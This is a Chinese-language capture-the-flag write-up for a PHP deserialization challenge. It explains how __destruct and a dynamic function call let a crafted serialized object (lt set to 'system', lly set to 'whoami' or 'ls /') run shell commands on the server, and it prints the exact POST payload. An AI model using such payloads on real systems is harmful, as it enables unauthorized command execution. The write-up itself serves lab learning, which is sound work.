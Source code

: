* **`__destruct `** **在php魔术方法中的析构函数 ，它的意思是 摧毁，毁坏。析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。**
* **`unserialize($_POST[‘nss’]);`******在执行完成后，通过 unserialize 重新创建的对象没有被任何变量引用，因此它将会被标记为不再需要，并最终会被 PHP 垃圾回收机制销毁。在对象被销毁的时候，__destruct 方法会被自动调用******。

#### **题目代码给了php中特有的动态函数**

```
// 这一行代码将 $this->lt 属性的值赋给变量 $a。因此，变量 $a 现在包含了一个可调用的函数或方法的引用。
$a = $this->lt;


// 在这一行代码中，变量 $a 被当作一个函数或方法来调用，同时传递 $this->lly 作为参数。这意味着 $this->lt 的值应该是一个函数或方法，而 $this->lly 被传递给这个函数或方法作为参数。 

$a($this->lly);

① 就相当于    $this->lt($this->lly);//很像命令执行 函数+指令
```

**所以我们可以通过构造一个恶意的序列化对象，将自定义的函数传递给 `$lt `属性，然后将要执行的代码（或者指向一个恶意代码文件的路径）传递给 `$lly` 属性。当对象被序列化后再被反序列化时，`__destruct `方法会被自动调用，从而执行指定的恶意操作。**

#### 源码：

```php
<?php
highlight_file(__FILE__);
class lyh{
    public $url = 'NSSCTF.com';
    public $lt='system';
    public $lly='whoami';
     
     function  __destruct()
     {
        $a = $this->lt;
        $a ($this->lly);
     }
}
    echo serialize(new lyh);

?>
```

**返回一串被反序列化后的值**

![image-20231101162629877](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231101162629877.webp) **又题目给出 ，通过``POST``传参**

**再用`ls` 查看根目录 ，一般的flag都在根目录下。通过命令我们查到了flag**

**`nss=O:3:"lyh":3:{s:3:"url";s:10:"NSSCTF.com";s:2:"lt";s:6:"system";s:3:"lly";s:4:"ls /";}`**

![image-20231101164011093](https://rtyu-1317440738.cos.ap-guangzhou.myqcloud.com/image-20231101164011093.webp) 

**接下来我们再用 `cat` 来打开这个flag   得到我们想要的**  
